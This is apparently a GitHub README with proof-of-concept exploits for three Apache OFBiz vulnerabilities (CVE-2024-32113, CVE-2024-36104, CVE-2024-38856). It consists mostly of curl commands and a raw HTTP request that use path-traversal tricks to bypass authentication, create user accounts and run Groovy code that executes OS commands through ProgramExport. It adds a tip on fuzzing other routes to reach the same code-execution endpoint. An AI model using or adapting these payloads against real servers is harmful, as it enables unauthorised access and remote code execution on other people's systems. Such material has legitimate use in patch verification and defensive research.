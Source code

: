 # Apache OfBiz vulns

### POC for CVE-2024-32113

The `USERNAME` and `PASSWORD` params can be provided at the `/ecomseo/AnonContactus` interface, which is publicly accessible to anyone.

- POC1：RCE

  ```shell
  curl --noproxy '*' -k --location --request POST 'https://127.0.0.1:8443/xxx/yyy/zzz/../../../%2e/webtools/control/ProgramExport' \
  --header 'User-Agent: Apifox/1.0.0 (https://apifox.com)' \
  --header 'Accept: */*' \
  --header 'Host: 127.0.0.1:8443' \
  --header 'Connection: keep-alive' \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'USERNAME=t@t.com' \
  --data-urlencode 'JavaScriptEnabled=Y' \
  --data-urlencode 'PASSWORD=12345' \
  --data-urlencode 'groovyProgram=println (('\''tou'\'' + '\''ch /tmp/success'\'').execute().text);'
  ```

- POC2：You can bypass the login to access the restricted webtools management interface.

  ```shell
  curl --noproxy '*' -k --location --request POST 'https://127.0.0.1:8443/xxx/yyy/zzz/../../../%2e/webtools/control/login/' \
  --header 'User-Agent: Apifox/1.0.0 (https://apifox.com)' \
  --header 'Accept: */*' \
  --header 'Host: 127.0.0.1:8443' \
  --header 'Connection: keep-alive' \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'USERNAME=t@t.com' \
  --data-urlencode 'PASSWORD=12345' \
  --data-urlencode 'JavaScriptEnabled=Y'
  ```

- POC3：You can register a regular user account, where `userLoginId` as username. 

  ```shell
  curl --noproxy '*'  -k --location --request POST 'https://127.0.0.1:8443/xxx/yyy/zzz/../../../%2e/webtools/control/createUserLogin' \
  --header 'User-Agent: Apifox/1.0.0 (https://apifox.com)' \
  --header 'Accept: */*' \
  --header 'Host: 127.0.0.1:8443' \
  --header 'Connection: keep-alive' \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'USERNAME=t@t.com' \
  --data-urlencode 'PASSWORD=12345' \
  --data-urlencode 'JavaScriptEnabled=Y' \
  --data-urlencode 'enabled=Y' \
  --data-urlencode 'partyId=' \
  --data-urlencode 'userLoginId=30000' \
  --data-urlencode 'currentPassword=12345' \
  --data-urlencode 'currentPasswordVerify=12345' \
  --data-urlencode 'passwordHint=' \
  --data-urlencode 'requirePasswordChange=N' \
  --data-urlencode 'securityQuestion=' \
  --data-urlencode 'SecurityAnswer=' \
  --data-urlencode 'externalAuthId='
  ```

### POC For CVE-2024-36104

- RCE1

  ```shell
  curl --noproxy '*' -k --location --request POST 'https://127.0.0.1:8443/xxx/yyy/zzz/.%2e/.%2e/.%2e/webtools/control/ProgramExport' \
  --header 'User-Agent: Apifox/1.0.0 (https://apifox.com)' \
  --header 'Accept: */*' \
  --header 'Host: 127.0.0.1:8443' \
  --header 'Connection: keep-alive' \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'USERNAME=t@t.com' \
  --data-urlencode 'JavaScriptEnabled=Y' \
  --data-urlencode 'PASSWORD=12345' \
  --data-urlencode 'groovyProgram=println (('\''tou'\'' + '\''ch /tmp/success'\'').execute().text);'
  ```

- RCE2

  ```shell
  curl --noproxy '*' -k --location --request POST 'https://127.0.0.1:8443/xxx/yyy/zzz/..;/..;/..;/webtools/control/ProgramExport' \
  --header 'User-Agent: Apifox/1.0.0 (https://apifox.com)' \
  --header 'Accept: */*' \
  --header 'Host: 127.0.0.1:8443' \
  --header 'Connection: keep-alive' \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'USERNAME=t@t.com' \
  --data-urlencode 'JavaScriptEnabled=Y' \
  --data-urlencode 'PASSWORD=12345' \
  --data-urlencode 'groovyProgram=println (('\''tou'\'' + '\''ch /tmp/success'\'').execute().text);'
  ```

  PS: `;` will make cookie setting throw exception, you need to get cookie manually. 

  ![image-20240514104449523](./README/image-20240514104449523.png)

![image-20240514104433195](./README/image-20240514104433195.png)
=======

### POC For CVE-2024-38856

- RCE

  ```http
  POST /webtools/control/forgotPassword/ProgramExport HTTP/1.1
  Content-Type: application/x-www-form-urlencoded
  Host: 127.0.0.1:8443
  
  groovyProgram=throw+new+Exception('id'.execute().text);
  ```

  **PS**：The `forgotPassword` can be replaced with other requests. You can try searching for it in `webapp/webtools/WEB-INF/controller.xml` (as shown in the picture) to perform fuzzing. As long as the request successfully returns `success`, it can trigger RCE in the `ProgramExport` module.

  ![image-20240604195154504](README/image-20240604195154504.png)
